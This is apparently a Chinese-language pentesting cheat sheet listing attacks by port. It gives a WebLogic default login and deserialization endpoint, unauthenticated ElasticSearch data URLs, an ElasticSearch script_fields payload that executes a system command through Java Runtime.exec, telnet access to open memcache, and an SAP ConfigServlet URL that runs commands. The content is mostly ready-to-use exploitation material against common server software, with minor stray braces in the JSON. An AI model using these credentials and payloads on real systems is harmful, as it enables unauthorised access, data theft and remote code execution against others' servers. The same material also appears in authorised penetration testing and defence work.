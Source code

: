**7001、7002 weblogic默认弱口令、反序列化**
```

【登录页面】
http://ip:7001/console/login/LoginForm.jsp
【默认密码】
weblogic Oracle@123
【反序列化漏洞】
http://ip:7001/_async/AsyncResponseService
```

**9200、9300 ElasticSearch未授权、命令执行漏洞**
```

【未授权】
http://localhost:9200/rvier/search 查看敏感信息了
 
http://localhost:9200/_plugin/head/ web管理界面
 
http://localhost:9200/_cat/indices 查看所有的index
 
http://localhost:9200/river/search 查看数据库敏感信息
 
http://localhost:9200/_nodes 查看节点数据

【命令执行】
POST /_search?pretty HTTP/1.1

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
    }
}
```

**11211 memcache未授权访问**
`telnet ip port` 直接连接

**50000 SAP命令执行**
```

https://XXX/ctc/servlet/ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=id
```
